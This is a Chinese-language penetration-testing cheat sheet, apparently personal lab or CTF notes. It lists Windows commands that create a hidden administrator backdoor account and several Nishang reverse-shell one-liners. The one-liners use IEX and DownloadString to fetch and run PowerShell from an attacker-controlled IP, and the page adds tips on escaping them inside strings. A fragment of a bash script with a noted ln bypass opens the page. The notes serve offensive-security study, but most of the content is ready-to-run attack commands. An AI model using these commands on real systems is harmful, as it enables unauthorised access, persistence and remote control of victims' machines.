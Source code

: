 ``` bash title:可用的範例，第10行檢查username可以利用ln躲過
    exit
fi

echo "Difference: $difference"

cp $note /home/m.sander/personal/notes.txt

echo "[+] Updated."

```
# Windows 指令速查
>[!WARNING]
>包括cmd、powershell、內建工具的指令
- 尋找東西
``` cmd
where /R C:\Windows bash.exe
```
- 建立後門帳號
``` cmd=
net user hacker01 password01 /add
net localgroup administratorshacker01 /add
```
- 複製東西
```
xcopy C:\AD\Tools\studentx.lnk \\dcorp-ci\AI
```
## PowerShell
>[!WARNING]
>包含所有跟PowerShell有關係的指令、Reverse Shell、列舉指令等等
>%%  %%
### Nishang Framework 
>[!WARNING]
>Ippsec推薦工具 

[nishang](https://github.com/samratashok/nishang)
[Invoke-PowerShellTcp](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)
- Invoke-PowerShellTcp.ps1
``` powershell
Invoke-PowerShellTcp -Reverse -IPAddress <ip> -Port <port>
```
``` powershell=
powershell.exe iex (iwr http://172.16.100.X/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.100.X -Port 443
```
- Invoke-PowerShellTcp.ps1常見的搭配指令
``` powershell
IEX(New-Object Net.WebClient).DownloadString('http://<ip>:<port>/<script_name.ps1>')
```
- 如果透過cmd去跑，需要放powershell在前面 
``` powershell
powershell -c IEX(new-object net.webclient).DownloadString('http://10.10.14.8/Invoke-PowerShellTcp.ps1')
```
- 如果需要包成字串，就要做跳脫字元
``` powershell
"powershell -C \"IEX(new-object net.webclient).DownloadString('http://<ip>:<port>/<script_name.ps1>')\""
```
### 搜尋指令
- 讀取檔案並抓取關鍵字
``` powershell
cat .\create.tf |findstr alicloud_slb
```